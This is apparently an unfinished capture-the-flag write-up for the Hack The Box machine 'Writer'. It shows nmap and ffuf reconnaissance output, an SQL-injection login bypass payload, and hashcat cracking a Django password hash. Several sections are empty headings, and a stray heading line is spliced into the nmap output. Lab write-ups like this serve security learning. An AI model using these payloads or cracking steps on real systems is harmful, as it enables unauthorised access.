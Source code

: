 # Port Scanning 
`nmap` found 4 open TCP ports, SSH (22) , HTTP (80) , SMB (139,445):

```bash
# Nmap 7.91 scan initiated Sun Aug  1 08:48:33 2021 as: nmap -sC -sV -oN inital_scan.txt -v 10.10.11.101
Nmap scan report for 10.10.11.101
Host is up (0.058s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:20:b9:d0:52:1f:4e:10:3a:4a:93:7e:50:bc:b8:7d (RSA)
|   256 10:04:79:7a:29:74:db:28:f9:ff:af:68:df:f1:3f:34 (ECDSA)
|_  256 77:c4:86:9a:9f:33:4f:da:71:20:2c:e1:51:10:7e:8d (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Story Bank | Writer.HTB
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| nbstat: NetBIOS name: WRITER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   WRITER<00>           Flags: <unique><active>
|   WRITER<03>           Flags: <unique><active>
|   WRITER<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active># Knowledge Gained

# Port Scanning
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-01T02:48:47
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug  1 08:48:50 2021 -- 1 IP address (1 host up) scanned in 16.78 seconds

```

# Web Reconnaissance
I added writer.htb in `/etc/hosts` file with associated IP address. I visited `http://writer.htb` and it returns this:

![web_root](https://github.com/binsec01/progress/raw/main/screenshots/writer-web_root.png)
###### Content Discovery:
I used `ffuf`  for fuzzing web contents.
```bash
$ ffuf -w /opt/SecLists/Discovery/Web-Content/common.txt  -u http://writer.htb/FUZZ         

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://writer.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

contact                 [Status: 200, Size: 4899, Words: 242, Lines: 110]
logout                  [Status: 302, Size: 208, Words: 21, Lines: 4]
about                   [Status: 200, Size: 3522, Words: 250, Lines: 75]
static                  [Status: 301, Size: 309, Words: 20, Lines: 10]
dashboard               [Status: 302, Size: 208, Words: 21, Lines: 4]
server-status           [Status: 403, Size: 275, Words: 20, Lines: 10]
administrative          [Status: 200, Size: 1443, Words: 185, Lines: 35]
:: Progress: [4685/4685] :: Job [1/1] :: 388 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

![[writer-admin_login_page.png]]
<center>writer.htb/administrative</center>

# Exploitation
I tried some random username password combination. but did't work! Then I put SQLi Payload and bypassed Admin Login.
```sqli
username = admin' -- -
password = admin' -- -
```
![[writer-SQLi.png]]

Admin Dashboard Screenshot:

![[writer-admin_panel_bypass_with_SQLi.png]]

-------------
 I send admin login request to burp for harvesting database info.  There was total 6 columns and 2nd column executes our SQL Query.

 ![[writer-vulnerable_column.png]]
# Reverse shell as www-data

# Post-Exploitation
- From www-data shell to $USER

# Privilege Escalation
- Enumeration

# Gainning Root User

Apache2 Domain Mapping Config PATH :  `/etc/apache2/sites-enabled/000-default.conf`

```bash
─$ hashcat -m 10000 hashes.txt /usr/share/wordlists/rockyou.txt --force                                                                                                                                                          2 ⨯
hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
CUDA API (CUDA 11.4)
====================
* Device #1: NVIDIA GeForce GT 1030, 1533/2000 MB, 3MCU

OpenCL API (OpenCL 3.0 CUDA 11.4.94) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #2: NVIDIA GeForce GT 1030, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 116 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Cracking performance lower than expected?

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Django (PBKDF2-SHA256)
Hash.Target......: pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8...uXM4A=
Time.Started.....: Mon Sep 27 16:50:00 2021, (18 secs)
Time.Estimated...: Mon Sep 27 16:50:18 2021, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      670 H/s (8.91ms) @ Accel:4 Loops:128 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 12288/14344385 (0.09%)
Rejected.........: 0/12288 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:259968-259999
Candidates.#1....: 123456 -> hawkeye
Hardware.Mon.#1..: Temp: 65c Fan: 55% Util:100% Core:1746MHz Mem:3003MHz Bus:4

Started: Mon Sep 27 16:49:59 2021
Stopped: Mon Sep 27 16:50:19 2021
```
